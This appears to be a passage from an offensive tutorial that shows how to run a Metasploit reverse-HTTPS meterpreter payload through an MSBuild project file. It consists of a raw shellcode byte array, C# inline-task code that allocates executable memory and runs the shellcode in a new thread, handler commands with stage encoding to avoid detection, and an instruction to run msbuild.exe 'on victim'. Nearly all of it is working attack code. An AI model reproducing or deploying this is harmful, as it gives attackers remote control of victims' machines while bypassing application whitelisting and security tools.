 ```
0x53,0x49,0xc7,0xc2,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x48,0x89,
0xc6,0x6a,0x0a,0x5f,0x48,0x89,0xf1,0x6a,0x1f,0x5a,0x52,0x68,
0x80,0x33,0x00,0x00,0x49,0x89,0xe0,0x6a,0x04,0x41,0x59,0x49,
0xba,0x75,0x46,0x9e,0x86,0x00,0x00,0x00,0x00,0xff,0xd5,0x4d,
0x31,0xc0,0x53,0x5a,0x48,0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,
0xc9,0x53,0x53,0x49,0xc7,0xc2,0x2d,0x06,0x18,0x7b,0xff,0xd5,
0x85,0xc0,0x75,0x1f,0x48,0xc7,0xc1,0x88,0x13,0x00,0x00,0x49,
0xba,0x44,0xf0,0x35,0xe0,0x00,0x00,0x00,0x00,0xff,0xd5,0x48,
0xff,0xcf,0x74,0x02,0xeb,0xaa,0xe8,0x55,0x00,0x00,0x00,0x53,
0x59,0x6a,0x40,0x5a,0x49,0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,
0xc0,0x00,0x10,0x00,0x00,0x49,0xba,0x58,0xa4,0x53,0xe5,0x00,
0x00,0x00,0x00,0xff,0xd5,0x48,0x93,0x53,0x53,0x48,0x89,0xe7,
0x48,0x89,0xf1,0x48,0x89,0xda,0x49,0xc7,0xc0,0x00,0x20,0x00,
0x00,0x49,0x89,0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x00,0x00,
0x00,0x00,0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,
0x66,0x8b,0x07,0x48,0x01,0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,
0x58,0x6a,0x00,0x59,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,
0xff,0xd5};

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);

            return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

3\. Ready for shell:
```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
set EnableStageEncoding true
set StageEncoder x64/xor_dynamic
exploit
```

4\. Run the following on victim:\
`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe test.csproj`
